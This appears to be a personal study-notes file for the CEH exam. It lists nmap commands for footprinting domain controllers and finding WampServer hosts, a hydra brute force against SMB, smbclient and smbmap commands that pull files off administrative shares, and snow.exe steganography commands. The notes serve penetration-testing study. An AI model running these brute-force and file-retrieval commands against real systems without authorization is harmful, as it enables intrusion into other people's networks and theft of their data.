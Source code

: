 # Personal-Notes
FQDN Domain Controller

1. How to foot print Domain
nmap -T4 -A -p 389,636,3268,3269 192.168.x.x/2x
or
nmap -p 389 --script ldap-rootdse <target_IP>

nmap -O -sV -sC -A 192.168.1.1/24 (scanning hosts)
nmap -sn 192.168.1.1/24 (live host)


######################################################################################################################################
To identify ip running Wampserver.


2. How to scan network
nmap -T4 -A 192.168.x.x/2x

OR 

nmap -T4 -A -p 80,443 192.168.x.x/2x

Look for specific banners or headers that indicate the presence of WampServer. This may include strings like "WampServer" or "Apache" in HTTP response headers or a the existense of MySql service


######################################################################################################################################
SMB


3. How to exploit smb
nmap -T4 -A -p 139,445 192.168.x.x/2x
OR
nmap -p 139,445 -sV 192.168.x.x/2x

Brute force SMB with hydra
hydra -l USER_NAME -P password_file TARGET_IP smb

Once SMB credentials are obtained, you can use tools like smbclient 
to connect to the SMB share and retrieve files.
smbclient //target_ip/ -U USER_NAME 
get file.txt
OR 
smbmap -u USER_NAME -p 'PASSWORD' -H TARGET_IP --download 'C$\file.txt'


Decrypt Encoded File:
Use bctextencoder or any other tool to decrypt the file using the users password
OR
snow.exe -C -p “password” file.txt

snow.exe -C -m "You can clear the CEH" -p "Pa$$word" Secret.txt Hiddensecret.txt --- hiding the data

######################################################################################################################################
MOBILE and calculate entropy
